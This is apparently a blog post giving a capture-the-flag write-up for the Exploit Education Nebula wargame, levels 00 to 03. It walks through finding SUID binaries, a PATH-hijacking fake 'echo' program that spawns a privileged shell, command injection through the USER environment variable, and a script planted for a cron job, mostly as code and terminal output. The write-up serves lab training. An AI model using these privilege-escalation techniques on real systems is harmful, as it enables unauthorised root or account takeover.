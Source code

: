 ```yaml
---
layout: post
title: "Exploit Education - Nebula"
category: ctf-writeups
mathjax: true

date: 2022-01-23
---
```


_Nebula takes the participant through a variety of common (and less than common) weaknesses and vulnerabilities in Linux. It takes a look at SUID files, Permissions. Race conditions, Shell meta-variables, $PATH weaknesses, Scripting language weaknesses
Binary compilation failures._

<!--more-->

## **Description**

Name: Nebula

Tested: Virtualbox

## **Details**

Machine Link: https://exploit.education/nebula/

Category: Exploit Education

## **Solution**

### Level00

Task: This level requires you to find a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.

Solution:

We used `find` to find out suid binaries.

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;2> /dev/null
```

We found the following specific binaries

```
/bin/.../flag00
/rofs/bin/.../flag00
```

They seem to be same files.

```
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```

### Level01

Task: There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

Solution:

We have been given following source code of the program

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

By looking at the `system` command, we can see that `echo` is being called without its absolute path, so we can abuse this. First we create a `echo.c` file in the home directory with following contents

```
#include <stdlib.h>
#include <unistd.h>

int main(){
    setuid(0);
    system("/bin/sh -p");
}
```

Then we compile it to create a spoofed echo program

```
gcc echo.c -o echo
```

Finally, we add our `home` directory in the `PATH` variable using

```
export PATH=:/home/level01/:$PATH
```

This allows us to execute our malicious `echo` program instead of the correct one.

Finally, by running the program, we get a shell with privilege of user `flag01`

```
level01@nebula:~$ ../flag01/flag01
sh-4.2:$ whoami
flag01
sh-4.2:$ getflag
You have successfully executed getflag on a target account
```

### Level02

Task: There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

Solution:

We have been given following source code of the program

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

By looking at the `asprintf` function, it is calling `getenv` to get `USER` value from the `env`. We can call the program with custom `USER` value to do a command injection attack and get the user `flag02` flag.

```
level02@nebula:~$ env USER="1llus1on ; getflag" ../flag02/flag02
about to call system("/bin/echo 1llus1on ; getflag is cool")
1llus1on
You have successfully executed getflag on a target account
```

### Level03

Task: Check the home directory of flag03 and take note of the files there. There is a crontab that is called every couple of minutes.

Solution:

First, we list files in `/home/flag03` and found the following files

```
total 1
drwxrwxrwx 2 flag03 flag03  3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03 98 2011-11-20 21:22 writable.sh
```

The directory is empty but the shell script contains the following content

```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

For each file in the directory,

- ulimit -5 t - allow a maximum of 5 seconds in cpu time
- bash -x "$i" - execute shell script and print commands executed
- rm -f "$i" - force delete file

So we write a script in the `writeable.d` directory and wait for it to be executed. The script contains following content

```
getflag > /home/flag03/myflag
```

Now we wait till cron executes the crontab.

We can also use `watch` command to watch `/writable.d` for when the file is deleted i.e crontab executed.

```
watch ls -l writable.d
level03@nebula:/home/flag03$ ls
myflag  writable.d  writable.sh
level03@nebula:/home/flag03$ cat myflag
You have successfully executed getflag on a target account
```
